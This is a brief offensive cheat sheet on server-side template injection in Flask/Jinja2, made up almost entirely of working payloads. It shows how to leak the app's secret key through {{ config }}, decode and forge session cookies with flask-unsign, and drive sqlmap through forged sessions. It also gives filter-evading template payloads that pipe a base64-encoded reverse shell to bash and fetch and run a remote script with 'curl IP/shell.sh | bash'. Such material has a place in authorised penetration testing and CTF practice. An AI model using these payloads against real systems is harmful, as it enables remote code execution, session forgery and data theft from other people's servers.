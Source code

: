# Server side template injection
## Flask Jinja2 
Get the secret key
```txt
{{ config }}
```
Decrypt the cookie
```bash
flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8'
```
SQLi in flask session with sqlmap
```bash
sqlmap http://1.1.1.1/sqli --eval "from flask_unsign import session as s; session = s.sign({'uid': session}, secret='SecretExfilratedFromTheMachine')" --cookie="session=*" --dump
```
Bypass filtered ->  `'` `_` `.` `{{}}` `if` `for` 
```python
{% with abuqasem=request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo <Base64EncodedReverseShellCommand> | base64 -d | bash -i")["read"]() %}abuqasem{% endwith %}
```
To exploit SSTI by image upload
```python
{% with abuqasem=request["application"]["__globals__"]["__builtins__"]["__import__"]("os")["popen"]("curl IP/shell.sh | bash")["read"]() %}
{{ abuqasem }}
{% endwith %}
```
Waf
### Further reading
- [https://hackmd.io/@Chivato/HyWsJ31dI](https://hackmd.io/@Chivato/HyWsJ31dI)  
-  [https://chowdera.com/2020/12/20201221231521371q.html](https://chowdera.com/2020/12/20201221231521371q.html)  
-  [https://jinja.palletsprojects.com/en/2.10.x/templates](https://jinja.palletsprojects.com/en/2.10.x/templates)/
 - [https://book.hacktricks.xyz/pentesting/pentesting-web/flask](https://book.hacktricks.xyz/pentesting/pentesting-web/flask)